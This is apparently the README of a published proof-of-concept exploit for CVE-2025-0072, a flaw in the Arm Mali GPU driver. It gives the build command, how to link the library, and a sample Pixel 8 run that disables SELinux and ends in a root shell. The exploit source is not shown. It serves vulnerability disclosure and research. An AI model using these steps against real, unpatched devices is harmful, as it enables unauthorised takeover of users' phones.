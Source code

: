 ## Exploit for CVE-2025-0072

The write up can be found [here](https://github.blog/security/vulnerability-research/bypassing-mte-with-cve-2025-0072). This is a bug in the Arm Mali kernel driver that I reported in December 2024. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the November 2024 patch (`AP3A.241105.007`). It needs to be compiled with OpenCL and linked with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_userio.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_userio
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it fails, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_userio                                     
gpu_addr 5ffff94000
group_handle 1 cookie 30000
group_handle 1 cookie 30000
found entry 4000093deaf443 at 384 in page 0
overwrite addr : 5ffff00c60 c60
overwrite addr : 5fffb00c60 c60
overwrite addr : 5ffff00f40 f40
overwrite addr : 5fffb00f40 f40
run enforce
result 50
clean up
shiba:/ #
```

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
